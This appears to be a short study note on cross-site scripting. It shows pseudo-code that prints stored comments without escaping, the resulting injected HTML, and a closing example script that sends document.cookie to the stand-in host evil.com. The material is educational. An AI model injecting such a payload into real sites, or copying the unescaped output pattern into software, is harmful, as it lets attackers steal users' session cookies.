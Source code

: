 [Reference](https://www.acunetix.com/websitesecurity/cross-site-scripting/)

# Cross-site Scripting (XSS) Attack
Client-side code injection attack wherein an attacker can execute malicious scripts into a legitmate website or web application. 

The following server-side pseudo-code is used to display the most recent comment on a web page.
```
print "<html>"
print "<h1>Most recent comment</h1>"
print database.latestComment
print "</html>"
```
The above script is simply printing out the latest comment from a comments database and printing the contents out to an HTML page, assuming that the comment printed out only consists of text.

The above page is vulnerable to XSS because an attacker could submit a comment that contains a malicious payload such as `<script>doSomethingEvil();</script>`.

Users visiting the web page will get served the following HTML page.
```
<html>
<h1>Most recent comment</h1>
<script>doSomethingEvil();</script>
</html>
```
When the page loads in the victim’s browser, the attacker’s malicious script will execute, most often without the user realizing or being able to prevent such an attack.

ex> Stealing cookie
```
<script>
   window.location="http://evil.com/?cookie=" + document.cookie
</script>
```
